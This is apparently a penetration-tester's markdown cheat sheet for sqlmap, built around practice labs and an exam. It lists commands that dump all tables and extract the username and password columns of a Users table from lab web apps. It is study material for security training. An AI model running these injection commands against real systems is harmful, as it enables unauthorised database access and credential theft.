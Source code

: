 # sqlmap

![](assets/16511985745005.png)

## What is sqlmap

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## How to use

### Show all Content & Tables without User Interaction

`sqlmap --tables --dump-all --batch -u https://ac021f111ea96192c01c0d2f00b200a8.web-security-academy.net/filter?category=Gifts`

**Plus level 5 & risk 3 & threads 5**
`sqlmap --tables --dump-all --batch --level 5 --risk 3 --threads 5 -u https://ac021f111ea96192c01c0d2f00b200a8.web-security-academy.net/filter?category=Gifts`

### Query URL with sqlmap

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3`

![Screenshot 2022-04-02 at 11.14.50](assets/Screenshot%202022-04-02%20at%2011.14.50.png)

### List Databases

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3 --tables`

![Screenshot 2022-04-02 at 11.47.42](assets/Screenshot%202022-04-02%20at%2011.47.42.png)

### Show Table Structure of Users

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3 -T Users --columns`

![Screenshot 2022-04-02 at 13.00.00](assets/Screenshot%202022-04-02%20at%2013.00.00.png)

### Output ‘password’ column in table ‘Users’

![Screenshot 2022-04-02 at 13.02.13](assets/Screenshot%202022-04-02%20at%2013.02.13.png)

### Output ‘username’ column in table ‘Users’

`sqlmap --threads 5  -u http://10.0.127.230/rest/products/search?q=test --level 5 --risk 3 -T Users -C username --dump`

![Table Users](assets/Table%20Users.png)

### Output all  columns in table ‘Users’

`sqlmap --threads 5  -u http://10.0.127.230/rest/products/search?q=test --level 5 --risk 3 -T Users --dump`

![dsdefaultAdnin](assets/dsdefaultAdnin.png)



----



Previous Exam:

```
sqlmap -r req.txt -v 5 --proxy="http://localhost:8080" --force-ssl -D laravel -T payments --dump
```

![](assets/2022-10-27-16-29-32-image.png)

